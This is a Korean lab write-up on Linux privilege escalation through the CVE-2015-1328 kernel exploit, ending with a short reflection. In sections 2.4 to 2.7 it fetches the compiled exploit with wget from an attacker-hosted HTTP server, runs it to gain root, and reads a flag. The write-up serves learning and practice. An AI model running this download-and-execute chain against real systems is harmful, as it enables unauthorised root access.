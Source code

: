 # Linux Privilege Escalation: Kernel Exploits
> 커널 익스플로잇을 이용하여 권한 상승에 관한 실습을 했습니다.

---

## 1. 실습 개요
- **타겟 머신 IP**: 10.10.42.60
- **공격 머신**: Kali Linux
- **사용 계정**: `karen:Password1`
- **커널 버전**: `Linux 3.13.0-24-generic`
- **실습 일자**: 2025-04-18

---

## 2. 실습 과정

### 2.1 SSH 접속
- 타겟 머신에 SSH로 접근 -> karen 계정과 주어진 비밀번호로 로그인 하였다.

```bash
ssh karen@10.10.42.60
```

![SSH 연결 및 로그인](./screenshots/ssh_connect.png)

### 2.2 커널 버전 확인

- 커널 버전 확인→ uname -a 명령어로 커널 버전을 확인하고, 3.13.0-24-generic 버전이라는 것을 확인하였다.

```bash
uname -a
```
![uname -a 출력](./screenshots/uname.png)

- 커널 버전이 CVE-2015-1328에 취약하다는 사실을 구글링을 통해 확인하였다.

- Exploit-DB에서 해당 취약점에 대한 37292.c 소스코드를 다운로드하였다.
[Exploit-DB - CVE-2015-1328](https://www.exploit-db.com/exploits/37292)

### 2.3 Kali에서 SSH 서버 시작

```bash
systemctl start ssh
```
![SSH 서비스 시작](./screenshots/start_ssh.png)


### 2.4 Exploit 다운로드 및 전송 (Windows → Kali) 
- Windows → Kali로 소스 전송: Windows PowerShell의 `scp`를 통해 Kali로 소스 파일을 전송하였다. (실제 IP는 모자이크)

```bash powershell
scp D:/exploit_file/37292.c root@<MyRoot-ip>:/root
```
![SCP 전송](./screenshots/window_scp.png)


### 2.5 Exploit 정적 컴파일  
- `gcc 37292.c -o exploit -static` 명령어를 사용하여 정적으로 컴파일 하였다.

```bash
gcc 37292.c -o exploit -static
```
![정적 컴파일](./screenshots/compile.PNG)

### 2.6 타겟 머신으로 Exploit 전송
- Kali에서 `python3 -m http.server 8000`으로 HTTP 서버를 열고, 타겟 머신에서 `wget`으로 exploit을 /tmp에 다운로드하였다.

```bash
python3 -m http.server 8000
wget http://<kali-ip>:8000/exploit -O /tmp/exploit
```
![wget 전송](./screenshots/http_server_wget.PNG)

### 2.7 실행 및 루트 획득

- `chmod +x exploit` 후 `./exploit`을 실행하여 루트 권한을 획득하였다. 후에 `find / -name flag1.txt`로 플래그 파일 경로를 찾고, `cat /home/matt/flag1.txt`로 내용 확인하였다.

```bash
chmod +x exploit
./exploit
id
find / -name flag1.txt
cat /home/matt/flag1.txt
```
![익스플로잇 실행 및 플래그 획득](./screenshots/exploit_flag.PNG)

---

## 느낀 점

이번 실습을 통해 커널 익스플로잇을 활용한 권한 상승 과정을 직접 따라 해보며, 이론으로만 알고 있던 **Kernel Exploit의 실제 작동 방식과 흐름을 체험**할 수 있었다.
특히, 커널 버전 확인부터 취약점 검색, 익스플로잇 소스 컴파일 및 전송, 실행을 통해 루트 권한을 획득하는 일련의 과정을 경험하면서, **실제 시스템 해킹 흐름을 이해하고 정리하는 데 큰 도움이 되었다**.

